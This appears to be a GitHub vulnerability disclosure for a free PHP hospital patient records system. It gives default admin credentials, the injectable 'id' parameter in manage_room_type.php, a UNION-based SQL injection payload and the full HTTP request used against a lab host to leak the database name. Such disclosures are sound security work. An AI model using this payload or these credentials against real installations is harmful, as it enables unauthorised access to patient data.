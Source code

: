 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/room_types/manage_room_type.php?id=

Vulnerability location: /hprms/admin/room_types/manage_room_type.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/room_types/manage_room_type.php?id=-2%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /hprms/admin/room_types/manage_room_type.php?id=-2%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171822894-2faa515f-b4e8-49e9-91b5-9cac1ddddee8.png)

![image](https://user-images.githubusercontent.com/54017627/171822921-80317e91-19b2-4bb4-8f09-afa505b1c542.png)
